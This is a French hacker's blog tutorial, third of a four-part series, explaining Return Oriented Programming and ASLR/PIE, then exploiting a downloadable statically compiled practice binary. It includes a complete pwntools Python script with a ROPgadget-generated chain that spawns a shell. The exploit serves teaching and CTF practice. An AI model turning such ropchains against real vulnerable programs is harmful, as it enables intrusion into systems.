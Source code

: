 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
description: "Introduction to Return Oriented Programming (ROP) and practical example."
---
```


> Small edit after the initial publication of the articles:

> These four articles lead me to give an "pwn introductory" conference at the HitchHack 2018. It summarizes the first 3 articles but goes less into detail. If this format suits you better, the slides are downloadable[here] (/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) and the video (French only) here :

[![1, 2, 3, PWNED !](http://img.youtube.com/vi/hmt8M9YLwTg/0.jpg)](https://www.youtube.com/watch?v=hmt8M9YLwTg)

## Pwn Road, third stop, welcome aboard!

Yesterday, the simple buffer overflow and ret2libc, today, ROP, or Return Oriented Programming, and tomorrow... Tomorrow the conquest of the world!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

I left you yesterday on the ret2libc, which, seen from afar, consists in picking in the libc the functions that interest us the most. Except that this attack is not possible in the case where the program is compiled statically, and hardly feasible if the ASLR is enabled. Today we will discover the ROP that allows us to bypass these protections.

It looks more and more like the cat and mouse game, so... \
Follow the leader cat!

## ASLR and PIC details

Before we start, a little feedback on these sometimes confusing protections.

The ASLR is configured through `/proc/sys/kernel/randomize_va_space`. It can be set to 0=off, 1=on (stack and heap), 2=on (1 + .data). The value 2 being the new standard being adopted, which is already effective for the most part.

The ASLR therefore leaves a whole non-randomized attack surface. So what had to happen happened: attacks using the sections .text, .data, .got, .plt, ...

More information on the different sections and structure of an ELF here: [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

As the ASLR is not sufficient, new protections have been put in place: PIC / PIE (Position Independent Code / Executable). The mainidea is simple... How about we randomize... EVERYTHING?!

ROP works with partial or total ASLR, but is countered by the latest measure...

Following at the next countermeasure! è.é

## Presentation of the technique

Return... Oriented... Programming...

Um um... Programming... With... Return? °^°'

We're going to take advantage of the fact that the .text section of the program is still in the same place to pick up a lot of little pieces of code called gadgets, and assemble them to do our exploit. The exploit is therefore a series of addresses pointing at assembler, so in the absolute, we can do everything with it. The only limit? The gadgets that are available in the program...

Even if we "can do everything", the most common strategy remains to do as in article 1 where we generate a shellcode which, via a syscall, allows us to execute a program of our choice.

An important thing to note here: We need gadgets. Gadgets are code that doesn't move. Libraries are always relocated. So a program based on libraries will have a much smaller attack surface than a program compiled in static that would contain all the code it needs. Also, the larger the program will be and the more complex actions it'll do, the more likely you'll find interesting stuff inside. Capich? Noice!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Now, let's go more into detail about gadgets, shall we?

They must all meet a major criterion: End with a ret instruction.

It is this criterion that makes the attack possible. Indeed, when we control the instruction pointer, we will make it execute a first gadget. When it'll reach the final ret instruction, the previous saved instruction pointer will be restored the execution will continue on the stack (which we just overflowed). But the next address will be the one of the second gadget and so on.

However, if your gadget ends with a ret, but contains instructions that modify the execution flow of the program, it may break your exploit. So no `call`, no `leave`, no `double ret`, no arms, and above all: no chocolate.

Many tools are available to list the gadgets of an executable, such as ROPgadget, Ropper, XRop, ...

## Elaboration of the exploit

The studied binary is downloadable[here](/hacking/pwn_3of4_saperliropette/vuln)

First of all, we look at what we're dealing with: x86-64, compiled in static, full ASLR. Okay!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

You're used to it now, the classic one:

Understand how the program works, find the crash, then the offset!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Here again, we see that we crash on a ret... Do we control RSP? Yes! Offset? 264!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Small reminder, ret has the effect of placing what RSP points to (so the last element of the stack), in RIP. So we have RIP under our control. So... RIP!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

We then use the ropgadget tool which offers us a superb ropchain made with our vulnerable program:

```shell
$ ropgadget --binary vuln --ropchain
```

The output is long (verbose), I only put part of it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

So we make it a python file, our exploit is the following:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

Isn't it beautiful all this automation? Well, it doesn't always work, but when it works, the time saved is huge, especially in CTF... ;)

We will now exploit it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell! :D

Small detail that kills, we see here that $0 (the name of the executed program) is `bash`, whereas in our ropchain, we had `/bin//sh` (which is understood as `/bin/sh`). But that's normal, because on my machine, `/bin/sh` is a symbolic link that points to bash! My real sh is `/usr/bin/sh`.

 > But... That doesn't match the previous exploits?!

Whoa! Whoa! One that follows! Yes, indeed...\
More information on this strangeness our dear beloved friens Pixis's website : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

That's it for this short introduction to ROP, I hope it blown your mind as much as mine when I found out about this attack. You now have many cards to play with: BOF / shellcode / ret2libc / ROP / brain / ...

That is why our next meeting will be based on the analysis of a more complete program. So we're going to conclude this series and...

Blow up the world! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

See you soon for even more pwn!
